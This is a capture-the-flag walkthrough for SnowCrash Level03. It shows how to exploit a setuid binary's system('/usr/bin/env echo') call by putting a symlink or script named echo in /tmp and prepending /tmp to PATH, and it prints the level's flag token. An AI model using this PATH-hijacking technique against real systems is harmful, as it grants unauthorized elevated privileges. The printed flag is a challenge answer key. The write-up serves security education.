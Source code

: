 # SnowCrash Level03 Walkthrough

## Overview

Level03 focuses on binary exploitation through PATH manipulation and symbolic links. This level demonstrates how insecure system calls can be exploited to gain elevated privileges.

## Initial Investigation

Upon logging into the level03 user, we immediately find an executable file:

```bash
level03@SnowCrash:~$ ls -la
total 17
dr-xr-x---+ 1 level03 level03   120 Mar  5  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level03 level03   220 Apr  3  2012 .bash_logout
-r-x------  1 level03 level03  3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag03  level03  8627 Mar  5  2016 level03
-r-x------  1 level03 level03   675 Apr  3  2012 .profile
```

### Key Observations

- The `level03` binary has **setuid** and **setgid** bits set (`-rwsr-sr-x`)
- It's owned by `flag03` user, meaning it runs with flag03 privileges
- When executed, it simply outputs "Exploit me"

```bash
level03@SnowCrash:~$ ./level03
Exploit me
```

## Binary Analysis with ltrace

To understand what the binary does internally, we use `ltrace` to trace library calls:

> **ltrace** is a debugging tool that intercepts and records dynamic library calls made by a program, showing function calls, arguments, and return values.

```bash
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7a4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                        = 2003
geteuid()                                        = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```

### Critical Discovery

The binary makes a **vulnerable system call**:

```c
system("/usr/bin/env echo Exploit me");
```

This call uses `/usr/bin/env` to find the `echo` command in the system PATH, which creates an opportunity for PATH manipulation.

## Understanding the Target

Let's examine what we need to access:

```bash
level03@SnowCrash:~$ ls -la /bin/getflag
-rwxr-xr-x 1 root root 11833 Aug 30  2015 /bin/getflag
```

The `getflag` binary is owned by root, but when we try to execute it directly:

```bash
level03@SnowCrash:~$ getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

This suggests that `getflag` checks the effective user ID and only provides the real flag when run with appropriate privileges.

## Exploitation Strategy

The attack plan involves:

1. Creating a malicious `echo` command that executes `getflag`
2. Manipulating the PATH to make the system find our malicious `echo` first
3. Running the vulnerable binary to trigger the exploit

### Step 1: Create a Symbolic Link

Create a symbolic link in `/tmp` that points to `getflag`:

```bash
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
```

### Step 2: Verify the Link

Test that our symbolic link works:

```bash
level03@SnowCrash:~$ /tmp/echo
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

This still shows the "Nope" message because we're not running with elevated privileges yet.

### Step 3: PATH Manipulation

Modify the PATH environment variable to prioritize `/tmp` over system directories:

```bash
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Or, for a more aggressive approach, set PATH to only include `/tmp`:

```bash
level03@SnowCrash:~$ export PATH=/tmp
level03@SnowCrash:~$ export | /bin/grep PATH
declare -x PATH="/tmp"
```

### Step 4: Execute the Exploit

Now when we run the vulnerable binary:

```bash
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

## How the Exploit Works

1. **Vulnerable System Call**: The `level03` binary calls `system("/usr/bin/env echo Exploit me")`
2. **PATH Resolution**: `/usr/bin/env` searches the PATH for the `echo` command
3. **Malicious Echo**: Our modified PATH causes it to find `/tmp/echo` (our symbolic link to `getflag`)
4. **Privilege Escalation**: Since `level03` runs with `flag03` privileges (setuid), our symbolic link executes with those same privileges
5. **Flag Retrieval**: `getflag` runs with elevated privileges and returns the actual flag

## Security Implications

This level demonstrates several critical security vulnerabilities:

- **Insecure PATH Usage**: Using `system()` with relative paths
- **Setuid Binary Risks**: Combining setuid with system calls
- **Environment Variable Injection**: Allowing user-controlled environment variables to affect privileged operations

## Alternative Approaches

Instead of a symbolic link, you could also create a script:

```bash
#!/bin/bash
/bin/getflag
```

Save this as `/tmp/echo`, make it executable with `chmod +x /tmp/echo`, and follow the same PATH manipulation steps.

## Flag

```
qi0maab88jeaj46qoumi7maus
```

This flag allows access to the next level of the SnowCrash challenge.

## Key Learnings

1. **PATH Manipulation**: Understanding how system PATH resolution works
2. **Setuid Vulnerabilities**: How setuid binaries can be exploited through environment variables
3. **System Call Security**: The dangers of using `system()` with user-controllable input
4. **Binary Analysis**: Using tools like `ltrace` to understand program behavior
5. **Privilege Escalation**: Leveraging existing privileges to gain higher access levels
